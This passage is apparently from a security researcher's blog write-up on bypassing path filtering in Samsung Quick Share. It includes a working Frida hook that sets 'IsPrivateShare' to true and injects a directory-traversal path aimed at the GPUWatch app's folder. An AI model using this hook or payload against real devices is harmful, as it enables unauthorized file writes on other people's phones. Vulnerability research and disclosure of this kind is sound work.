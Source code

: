 we found there Regex on `path` and `name` but if this `this.f2671g.x` is true the `name` and `path` will go in the first block and will take it as we send it without any filter

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*96B1bXG-v9Z1z4OGDtsyDA.png)

what is `this.f2671g.x` while we see search for this method it goes in JSONObject as key called `IsPrivateShare` we can make it true by click on it in the quick agent or using Frida to patch it before create the Download Code

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:866/1*YYYwXHu2x50rYdk4MbTodQ.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1445/1*_-IVnax7PYxpr0fHuE1tIA.png)

so there parameter in JSONObject we can change it to `true` to pass the message to non filter part

```
console.log("script loaded");
Java.perform(function() {

    var AttackerClass= Java.use('e2.t');

    AttackerClass.n.overload('org.json.JSONObject', 'e2.h', 'boolean').implementation = function(a,b,c) {

        if (a.has("IsPrivateShare")) {
            a.put("IsPrivateShare", true)
        }
        if (a.has("Path")) {
            a.put("Path","/../../../../../../GPUWatch_Dump/html/")
        }
        var ret_val = this.n(a,b,c);
        console.log("send json: " + a + "\n" + "send bytes: " + ret_val + "\n")
        return ret_val;
    }
});

```

so now we can use this Script to change the Path to be in `GPUWatch_Dump` but wait what is it

> What is `com.samsung.gpuwatchapp`

GPUWatch is a tool for Samsung developers that provides real-time monitoring of GPU activity within an application. It allows developers to observe GPU usage and performance metrics directly on the screen, aiding in debugging and optimization.

when i search of my Samsung Phones i have just found it in my friend S10 and S25 but he is already updated `Quick Share` and `Agent` so i didn’t find a phone to make the full exploit

Press enter or click to view image in full size
